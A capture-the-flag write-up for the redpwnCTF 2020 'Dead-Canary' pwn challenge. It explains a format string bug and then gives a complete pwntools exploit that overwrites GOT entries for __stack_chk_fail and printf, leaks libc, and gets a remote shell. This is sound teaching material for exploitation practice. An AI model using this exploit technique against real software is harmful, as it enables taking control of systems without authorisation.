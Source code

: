 # Dead-Canary
Pwn, 475

> It is a terrible crime to slay a canary. Killing a canary will keep your exploit alive even if you are an inch from segfaults. But at a terrible price.
> 
> nc 2020.redpwnc.tf 31744

From the given Dockerfile, it's running on Ubuntu 18.04, which uses `libc.2-27.so`.

`pwn checksec dead-canary` gives:
```
[*] '/home/boshua/deadcanary/bin/dead-canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Stack canary means that there is no bof (or does it?).

Also, no source is given, so I dumped it into Ghidra.

Right away, there is a pretty clear fstring vulnerability:

![](https://i.imgur.com/Jjp0a7X.png)

My first idea was to use the format string to leak the stack canary, but that won't work because the binary will just exit.

I got the binary to loop by overwriting `__stack_chk_fail` with the main address, and thne overwriting the canary, which would trigger `__stack_chk_fail`.

On the first iteration, I used the fstring vulnerability to overwrite the address of `__stack_chk_fail` in the Global Offset Table. I then appended a bunch of `A`s to overwrite the canary. Then, I also leaked a libc pointer in the same printf.

On the second iteration, I overwrote the address of `printf` in the GOT with `system`.

On the third iteration, I got a shell and the flag.

Note: I only write part of `system` to libc (lazy). So, the script occasionally will not work. In that case I just ran it again until it did.

```python
from pwn import *

p = remote("2020.redpwnc.tf", 31744)
#p = process("bin/dead-canary")
e = ELF("bin/dead-canary")
LIBC = ELF("./libc-2.27.so")
"""
gdb.attach(p,
'''break *0x40074b
#break *0x400799
break *0x4007ea
break *0x4007fc''')
"""
MAIN_ADDR = 0x400737
STACK_CHK_FAIL_GOT = e.got["__stack_chk_fail"]
PRINTF_GOT = e.got["printf"]

# address of our input starts at %6$lx
# address of the canary is at %39$lx
# address of the libc pointer is at %41$lx
# libc offset is 0x21b97

print("stack chk fail: ", hex(STACK_CHK_FAIL_GOT))
print("printf got: ", hex(PRINTF_GOT))
print("main func addr: ", hex(MAIN_ADDR))

exploit = ""

exploit += "%{}p%16$hn%{}p%17$hn %41$lx".format(0x40, 0x737-0x40)

exploit = exploit.ljust(80)
exploit += p64(STACK_CHK_FAIL_GOT+2)
exploit += p64(STACK_CHK_FAIL_GOT)
exploit += "A"*180

p.recvuntil(": ")
p.sendline(exploit)

#p.interactive()

x = p.recvuntil(": ").split()

libc_pointer = int(x[-5], 16)

LIBC.address = libc_pointer-0x21b97

print("libc base: ", hex(LIBC.address))

LIBC_SYSTEM = LIBC.sym["system"]

print("libc system: ", hex(LIBC_SYSTEM))

thing = list(hex(LIBC_SYSTEM)[2:])
lo = int(''.join([thing.pop() for i in range(4)][::-1]), 16)
mid = int(''.join([thing.pop() for i in range(4)][::-1]), 16)
hi = int(''.join(thing), 16)

print("hi: ", hex(hi))
print("mid: ", hex(mid))
print("lo: ", hex(lo))

print("lo-mid: ", lo-mid)

exploit = ""
exploit += "%{}p%16$hn%{}p%17$hn".format(mid, lo-mid)
exploit = exploit.ljust(80)
exploit += p64(PRINTF_GOT+2)
exploit += p64(PRINTF_GOT)
exploit += "A"*180

p.sendline(exploit)

p.interactive()
```

Flag: `flag{t0_k1ll_a_canary_4e47da34}`